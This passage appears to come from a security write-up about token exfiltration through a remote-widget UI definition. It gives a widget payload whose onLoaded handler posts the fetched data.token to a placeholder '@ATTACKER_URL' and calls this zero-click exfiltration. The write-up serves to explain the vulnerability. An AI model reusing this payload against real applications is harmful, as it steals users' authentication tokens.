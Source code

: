 Next, the `onLoaded` event handler could be used to trigger the `api_post` event for zero-click exfiltration. But this was a bit iffy and only worked in some scenarios, such as the following one.

```dart
import local;
import core.widgets;

widget root { loaded: false }= Container(
    child:
      switch state.loaded {
          true:
              Column(
                children: [
                  Row(children: 
                    Center(children:
                      [
                        Text(text: data.token, textDirection: "ltr"),
                      ]
                    )
                  ),
                  ApiMapper(
                    url: '/api/token',
                    jsonKey: 'new_token',
                    dataKey: 'token',
                    onLoaded: event 'api_post' {
                      path: '@ATTACKER_URL',
                      body: {selection: data.token}
                    }
                  )
                ]
              ),
          false:
              ApiMapper(
                  url: '/api/token',
                  jsonKey: 'new_token',
                  dataKey: 'token',
                  onLoaded: set state.loaded = true
              )
      }
    
);

```

For example, here's me getting my own token.

![](<../.gitbook/assets/image (84).png>)

